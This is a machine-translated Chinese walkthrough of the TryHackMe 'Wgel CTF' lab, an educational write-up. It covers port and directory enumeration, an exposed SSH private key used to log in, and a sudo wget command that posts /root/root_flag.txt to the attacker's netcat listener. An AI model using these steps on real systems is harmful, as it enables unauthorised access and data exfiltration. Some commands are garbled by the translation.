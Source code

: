 # TryHackMe- Wgel CTF 报道(详细)

> 原文：<https://infosecwriteups.com/tryhackme-wgel-ctf-writeup-detailed-ce5ff04a718d?source=collection_archive---------0----------------------->

![](img/86d2e7f6904f284508d349e5fd497fd9.png)

CTF 报道#6

欢迎各位！！我们将在 TryHackMe 上做 CTF。我必须说，这是一个初级水平的盒子，非常有趣。你也会从中获得乐趣的。

[](https://tryhackme.com/room/wgelctf) [## 特里哈克姆|威格尔·CTF

### TryHackMe 是一个学习和教授网络安全的在线平台，全部通过您的浏览器完成。

tryhackme.com](https://tryhackme.com/room/wgelctf) 

在 CTF 目录中创建一个 CTF 目录和一个 nmap 目录，然后我们开始！

![](img/c70376a1141b3e584715b2248014cb64.png)

盒子是 boot2root。我们需要提交用户和根标志。

![](img/c59e8ffa1fc300e6d53304124009e2a7.png)

让我们开始吧！享受流动吧！

Nmap 扫描:

> *nmap-sC-sV-oN nmap/root me<MACHINE _ IP>*

*   -sC:默认脚本
*   -sV:版本检测
*   -oN:输出将存储在您之前创建的目录“nmap”中

![](img/be58918c69d4ba50c186ed78888baaf0.png)

有 2 个端口打开:
22/ssh-OpenSSH 7.2 p2
80/http-Apache httpd 2 . 4 . 18
检测到 OS-Linux

Gobuster:

> gobuster dir -u http:// <machine_ip>-w<path_to_wordlist></path_to_wordlist></machine_ip>

*   -u : URL
*   -w:单词表

![](img/199fc62c7b6d1f33b25a916096475edb.png)

太好了。我们在 gobuster 输出中发现了一个目录/站点地图。我将再次启动 gobuster 来搜索/sitemap 目录中的目录。

![](img/0292f268ca9426c2ef01360895b10dbc.png)

## Nikto:

只是另一个工具，用于查找运行在端口 80 上的 web 服务器上的漏洞。它可能会也可能不会给出重要/有趣的信息，但是将该工具作为方法的一部分来运行总是好的。

> nikto -h<target_ip></target_ip>

![](img/23ba1e95492b074eee5df841f9f09bd1.png)

导航到 http://<target_ip></target_ip>

![](img/3dfa368a1b8cac9b7abca9fd5e726137.png)

检查页面的源代码，寻找任何对我们的枚举过程有帮助的有趣信息总是好的。
查看 URL 页面的来源。Ctrl+U

![](img/ef39ea103d31b862cb899271c1f5b76a.png)

厉害！！
我们有一个潜在的用户名:
xxxxxx

如果我们以后需要强行进入服务，用户名将会帮助我们。我们将记下它，并继续我们的计数过程。

接下来，我们可以导航到 http:// <target_ip>/sitemap</target_ip>

![](img/8125dfe809b2f428c8434d3536dab8ae.png)

我们将简单地导航到所有页面并搜索任何其他信息。

在/sitemap/about.html 上发现了一个动画视频。看不看对生根没有任何帮助，但我看了。

![](img/d10409978d89a233f8e14f9be4f5254d.png)

似乎我们已经浏览了所有页面，除了一个潜在的用户名之外，没有发现任何隐藏/奇怪/有趣/重要的内容。

我说我们没有完全枚举盒子怎么样。我这么说是什么意思？我的意思是，当我们在运行于特定端口(例如本框中的端口 80)的 web 服务器上搜索目录时，在开始搜索之前，我们必须始终考虑两点。
1。我们需要一个工具来为我们工作，例如 gobuster、dirbuster、dirb
2。我们希望选择一个合适的单词列表，例如 fasttrack.txt、common.txt、directory-list-2.3-medium.txt 等。

我非常喜欢 gobuster，它是我的方法的一部分，但它不会总是完全准确，因为可能存在目录，但你使用的单词列表不包含可以找到这些目录的单词。换句话说，有时尝试不同的单词表或不同的工具会显示不同的结果。因此，我觉得我们应该用另一个词汇表尝试另一个工具，寻找一些我们以前没有发现的东西。令人惊讶的是，它确实有效，因为我发现了一个目录/。ssh 使用 dirb 而不是 gobuster。

![](img/4f49bcc5e6e4e31486c51b6616154255.png)

太棒了。！工具 dirb 使用 common.txt wordlist 为我们完成了这项工作。

我们现在将继续并导航到 <target_ip>/sitemap/。嘘</target_ip>

![](img/efa44bfff41f127a7e0ae7a2459043fa.png)

点击 id_rsa，你会看到 rsa 私钥。

![](img/e18b6fa0f8a54a1bc1dc616c0cfce7d3.png)

复制密钥，将其保存在文本编辑器中，并将其移动到您的 CTF 文件夹中。或者，Ctrl+S 也会为您保存密钥。

![](img/aece9ed22ca5ea925f9f0d60cdac0c34.png)

我们在 CTF 文件夹里有 id_rsa 文件。在我们使用 id_rsa 文件通过 ssh 连接到用户之前，我们总是给予它 600 个密钥权限，这一点很重要。

> Chmod 600 (chmod a+rwx，u-x，g-rwx，o-rwx)设置权限，这样，(U)ser / owner 可以读，可以写，不能执行。(G)鲁普不能读，不能写，也不能执行。(O)有些人不能读，不能写，也不能执行。

让我们以用户身份使用 ssh 的密钥，看看我们是否能够获得访问权。祈祷吧。

![](img/c68379aed1d5abafc94e973e61784431.png)

做得好！！
我们已经成功进入了！！
我们现在要猎用户旗了。

超级简单的方法是使用 find 命令:

> 查找/-键入 f -name *。txt
> /:搜索整个文件系统
> -type f:类型为文件
> -name:指定搜索的文件名称
> *。txt:搜索所有带有扩展名的文件。文本文件（textfile）

![](img/79ff8e22666b135038758b2ebaeddb40.png)![](img/6a73d424c88f4b8d2311164b3774631c.png)

太棒了。我们已经找到了用户标志，它在文档目录中。

导航到它，并“猫”到它，以获得我们的用户标志。

![](img/31ad9c74b8332d75eade4737e0a5a92d.png)

太棒了。！我们现在要做什么？你认为这是对的。我们必须提升我们的特权成为根，并得到我们的最终根标志，以结束这个盒子。

我们将使用命令:sudo -l 来查看被授予 root 权限来执行的任何命令/二进制文件。

![](img/0fd9b5b2ebe18b37b3f6fc82e7a96acb.png)

事实上，在/usr/bin 中有 wget 二进制文件，它具有 SUID 权限，我们将尝试使用它来提升权限。

我的第一个任务是去[https://gtfobins.github.io/](https://gtfobins.github.io/)寻找提升权限的可能的权限提升命令。
在搜索栏中搜索 wget。

![](img/28509d8e8120724dc8fd7c745e905077.png)![](img/db8f3b93bcb30e064b15f51cac3f635e.png)

您在上面看到的命令基本上可供我们运行，以便上传或发布文件，并将文件中的内容上传到服务器上。

我们知道，在 CTFs 中，根标志通常位于/root 文件夹中，成为根并获得根标志是一项主要任务。但是对于我们将应用的方法，它将使用 wget 二进制文件将文件(即根标志)发布到我们的主机上，并简单地使用 netcat 进行端口连接。
让我们在端口 9001 上启动一个 netcat 监听器，或者选择您的任何选项。

![](img/ef7d647121795d9d2c7fe2cb0829a584.png)

回到我们的目标机器，我们将运行命令:

> sudo wget—post-file =/root/root _ flag . txt<host_ip>:</host_ip>

![](img/8d56e7f796e05ce9bc2616486635fafc.png)

检查您的 netcat 监听器，看看它是否给出任何输出。

![](img/5465a73c51917a9c5359d0f9ea1a26a2.png)

瞧啊。！
那真是超级有趣！！
我们成功拿到了我们的根旗！！
这个方法没有给根特权，但是我们得到了标志，所以一切都做得很好很容易。太棒了！！

![](img/d64c9be7adcb1df99a9e9853c18b566a.png)

恭喜你！！我们已经完成了房间！！

如果你喜欢这个帖子，并且这个帖子在任何可能的方面帮助了你，请在评论中告诉我，或者用掌声分享你的爱。

谢谢你抽出时间。

跟着我。

更多的报道正在进行中。

保重，注意安全，继续黑！

**-哈桑·谢赫**